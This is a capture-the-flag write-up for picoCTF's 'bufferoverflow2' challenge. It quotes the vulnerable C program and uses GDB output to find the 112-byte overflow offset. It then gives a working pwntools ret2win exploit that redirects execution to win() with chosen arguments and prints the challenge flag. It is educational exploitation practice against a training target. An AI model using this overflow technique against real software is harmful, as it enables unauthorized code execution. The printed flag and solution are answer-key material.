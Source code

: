```yaml
---
layout: post
title:  "bufferoverflow2"
grouped_by: picobin
---
```

### Description
> Control the return address and arguments
This time you'll need to control the arguments to the function you return to! Can you get the flag from this program?
You can view source here. And connect with it using nc saturn.picoctf.net 63353
## Analysis

We first look into the vuln.c program attached to the challenge.
```c
...
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
   
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
...
```
We see that the flag we want is in the `win` function which has not been called in main. Howvere the `vuln` function has been called and it goes use `gets()` which we can exploit using buffer overflow.   
Also to note is `win` takes two arguments and checks it to be equal to `0xCAFEF00D` and `0xF00DF00D` respectively.

Buffer size is declared to be 100.
We also look into compile protections in place for the executable



```c
 [ctf] chmod +x vuln                                                                                                                    
[ctf] gdb vuln                                                                                                                     
GNU gdb (Ubuntu 9.1-0ubuntu1) 9.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 9.1 in 0.00ms using Python engine 3.8
Reading symbols from vuln...
(No debugging symbols found in vuln)
gef➤  checksec
[+] checksec for '/tmp/ctf/vuln'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
gef➤
```
Only NX is active which prevents us from putting in shellcode in the stack. Thats fine, we can move ahead.



## Solution

We need to now find how many bytes to overflow till we reach the eip address in stack. For this I'm trying a random input pattern generated by gdb and find the offset where eip is overwritten

```c
gef➤  pattern create 250
[+] Generating a pattern of 250 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma
[+] Saved as '$_gef0'
gef➤  c
Continuing.
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xfb
$ebx   : 0x62616162 ("baab"?)
$ecx   : 0xffffffff
$edx   : 0xffffffff
$esp   : 0xffffcd00  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fbc000  →  0x001ead6c
$edi   : 0xf7fbc000  →  0x001ead6c
$eip   : 0x62616164 ("daab"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcd00│+0x0000: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"    ← $esp
0xffffcd04│+0x0004: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcd08│+0x0008: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffcd0c│+0x000c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffcd10│+0x0010: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffcd14│+0x0014: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffcd18│+0x0018: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffcd1c│+0x001c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x62616164
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x62616164 in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset 0x62616164
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```

From the above result we know the offset to be 112. After whihc, we'll be overwriting the instruction pointer. We can now give in the address for `win` function along with the arguments to match and give us the flag.


Since we know theres a signal_handler and an alarm, in gdb we can set to ignore SIGALRM and run the program. It should now not stop the program and give us the key.

To find the address of win we do the following

```c
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x080490e0  printf@plt
0x080490f0  gets@plt
0x08049100  fgets@plt
0x08049110  getegid@plt
0x08049120  puts@plt
0x08049130  exit@plt
0x08049140  __libc_start_main@plt
0x08049150  setvbuf@plt
0x08049160  fopen@plt
0x08049170  setresgid@plt
0x08049180  _start
0x080491c0  _dl_relocate_static_pie
0x080491d0  __x86.get_pc_thunk.bx
0x080491e0  deregister_tm_clones
0x08049220  register_tm_clones
0x08049260  __do_global_dtors_aux
0x08049290  frame_dummy
0x08049296  win
0x08049338  vuln
0x08049372  main
0x080493f0  __libc_csu_init
0x08049460  __libc_csu_fini
0x08049465  __x86.get_pc_thunk.bp
0x0804946c  _fini
```
Okay s oour input till now would be 112*<any_char> + the address of `win` in little endien order. 
Now since the function`win` is called, it needs a return address as well, so we can randomly give 4 bytes to the input as we don't care much about it. The last piece of input would be the arguments to `win` - `0xCAFEF00D` and `0xF00DF00D` in little endien format. 

Wrote a small python code to get this job done on the server
```c
import sys
from pwn import *
payload = b'a'*112 + b'\x96\x92\x04\x08abcd\x0D\xF0\xFE\xCA\x0D\xF0\x0D\xF0'

session = remote(sys.argv[1], sys.argv[2])
session.recvuntil("Please enter your string:")
session.sendline(payload)
session.recv()
session.interactive()
```
```
[ctf] python payload.py saturn.picoctf.net 58479                                                                                                                                                                                                             
[+] Opening connection to saturn.picoctf.net on port 58479: Done
payload.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  session.recvuntil("Please enter your string:")
[*] Switching to interactive mode
\xpicoCTF{argum3nt5_4_d4yZ_3c04eab0}[*] Got EOF while reading in interactive
$
```

And there is our flag `picoCTF{argum3nt5_4_d4yZ_3c04eab0}`